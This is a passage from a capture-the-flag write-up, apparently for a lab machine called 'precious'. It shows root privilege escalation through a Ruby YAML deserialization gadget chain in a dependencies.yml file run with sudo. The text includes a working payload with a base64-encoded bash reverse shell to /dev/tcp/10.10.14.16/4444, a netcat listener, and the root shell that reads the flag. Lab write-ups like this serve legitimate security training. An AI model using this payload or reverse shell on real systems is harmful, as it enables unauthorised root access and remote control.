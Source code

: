 ```bash
	10: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:299:in `fix_syck_default_key_in_requirements'
	9: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_reader.rb:59:in `each'
	8: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_header.rb:101:in `from'
	7: from /usr/lib/ruby/2.7.0/net/protocol.rb:152:in `read'
	6: from /usr/lib/ruby/2.7.0/net/protocol.rb:319:in `LOG'
	5: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
	4: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
	3: from /usr/lib/ruby/vendor_ruby/rubygems/request_set.rb:388:in `resolve'
	2: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
	1: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
/usr/lib/ruby/2.7.0/net/protocol.rb:458:in `system': no implicit conversion of nil into String (TypeError)
```

It works! The command id is executed, confirming that we have root access. Now, we can set up a reverse shell to a listening port.

```bash
nc -lvnp 4444
```

We edit the file, replacing git_set with a base64-encoded reverse shell.

```bash
henry@precious:/tmp$ cat dependencies.yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNi80NDQ0IDA+JjE=' | base64 -d | bash
         method_id: :resolve

```

We execute **sudo** and observe the listening port.

```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.11.189] 49152
root@precious:/tmp# cat /root/root.txt
cat /root/root.txt
566ebf1363f3################
```

Now, we have both flags!



